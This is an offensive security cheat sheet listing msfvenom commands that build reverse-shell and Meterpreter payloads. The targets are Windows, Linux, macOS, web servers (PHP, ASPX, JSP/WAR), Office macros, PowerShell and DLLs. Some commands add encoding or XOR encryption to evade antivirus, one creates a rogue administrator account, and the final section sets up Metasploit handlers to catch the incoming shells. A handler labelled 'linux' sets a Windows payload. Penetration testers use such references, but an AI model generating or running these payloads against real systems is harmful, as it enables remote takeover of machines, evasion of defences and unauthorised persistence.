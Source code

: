 # msfvenom

#msf
## msfvenom payloads list
```
msfvenom --list payloads
```

## msfvenom - payload windows x86 meterpeter unstagged
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip> LPORT=<local_port> -f exe > shell.exe
```

## Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf > shell.elf
```

## Linux x64 Meterpreter Reverse tcp
```
msfvenom -p  linux/x64/meterpreter/reverse_tcp LHOST=<ip|tun0> LPORT=<port> prependfork=true -f elf -t 300 -e x64/xor_dynamic -o test.elf
```

## Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f exe > shell.exe
```

## Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<local> -f exe > shell.exe
```

## Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<local> -e shikata_ga_nai -i 3 -f exe > encoded.exe
```

## Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho > shell.macho
```

## meterpreter x64 - https - non staged
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=<ip> LPORT=<port|443> -f exe -o /var/www/html/msfnonstaged.exe
```

## meterpreter x64 - https - staged
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> -f exe -o /var/www/html/msfstaged.exe
```

## Web Payloads
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.php
```

## ASPX Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f aspx > shell.aspx
```

## JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw > shell.jsp
```

## WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war > shell.war
```

## VBA 32bits
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f vbapplication
```

## powershell 32 bits
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f ps1
```

## DLL
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> -f dll -o <dll|output.dll>
```

## Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<ip> LPORT=<port> -f raw > shell.py
```

## Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw > shell.sh
```

## Perl Unix Reverse shell 
``` msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw > shell.pl
```

## Powershell
```
msfvenom -p windows/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> EXITFUNC=thread -f ps1
```

## Csharp - xor encrypted
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<ip> LPORT=<port|443> --encrypt xor --encrypt-key <key> -f csharp
```

## Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f <language>
```

## MCreate User
```
msfvenom -p windows/adduser USER=<user|hacker> PASS='<pass|Hacker123$>' -f exe > adduser.exe
```

## Metasploit Handler windows tcp 32bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port>; set payload windows/meterpreter/reverse_tcp; exploit"
```

## Metasploit Handler windows https 32bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/meterpreter/reverse_https; set EXITFUNC thread; exploit
```

## Metasploit Handler windows https 64bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; exploit"
```

## Metasploit - Handler windows https 64bits unstaged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter_reverse_https; exploit"
```

## Metasploit - Handler windows https 64bits stagged - encoded xor
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder <encoder|x64/xor_dynamic>; exploit"
```

## Metasploit - Handler linux tcp 64bits stagged - encoded xor
```
msfconsole -x "use exploits/multi/handler; set lhost <ip|tun0>; set lport <lport|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; exploit"
```


